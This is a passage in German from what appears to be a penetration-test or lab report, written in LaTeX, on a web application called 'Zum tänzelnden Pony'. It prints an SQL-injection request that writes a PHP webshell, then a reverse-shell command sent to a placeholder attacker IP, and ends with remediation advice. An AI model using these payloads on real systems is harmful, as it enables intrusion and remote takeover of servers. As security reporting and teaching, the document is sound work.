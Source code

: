 Durch den vorherigen Upload einer Webshell ist diese nun unter der Sub-URL \url{/shell1.php} erreichbar. Über den \texttt{cmd} Parameter kann eine Reverse Shell initiiert werden. Dafür muss zunächst ein Netcat-Listenner auf dem Angreifer-System erstellt werden (siehe \autoref{listing:netcat-listener}). Danach kann ein passender Angriffsvektor über die Webshell geschickt werden. Dieser HTTP-GET-Request ist in \autoref{listing:pony:reverse_shell} aufgeführt. Ein Nachweis ist in \autoref{fig:09_taenzelndes_pony_proof} dargestellt.

\begin{listing}[!ht]
\begin{verbatim}
POST /app/admin/manage_reservation.php HTTP/1.1 
[...]

item%5B%5D=14;SELECT+"<%3fphp+system($_REQUEST['cmd'])%3b+%3f>"+into+outfile+ '/var/www/html/shell1.php'&confirm=true
\end{verbatim}
\caption{Webshell Upload mit SQL Injection}
\label{listing:pony:webshell_upload}
\end{listing}


\begin{listing}[!ht]
\begin{verbatim}
GET /shell1.php?cmd=bash+-c+'bash+-i+>%26+/dev/tcp/<Angreifer-IP>/9002+0>%261'
\end{verbatim}
\caption{Reverse Shell}
\label{listing:pony:reverse_shell}
\end{listing}


\begin{figure}[!ht]
    \centering
    \includegraphics[width=\linewidth]{images/proofs/09_taenzelndes_pony_proof.png}
    \caption{Proof für die Webanwendung Zum tänzelnden Pony}
    \label{fig:09_taenzelndes_pony_proof}
\end{figure}

\subsection*{Empfehlungen}
\begin{itemize}
    \item Eingabevalidierung: Benutzereingaben sollten validiert werden. Es sollte auch ein Escaping verwendet werden, um Injection-Angriffe zu verhindern (siehe \cite{owaspInputValidation}).
    \item Prepared SQL-Statements: Mit Hilfe von Prepared SQL-Statements können SQL-Injection-Angriffe verhindert werden, indem Eingaben korrekt validiert und escaped werden (siehe \cite{owaspSQLInjectionPrevention}).
\end{itemize}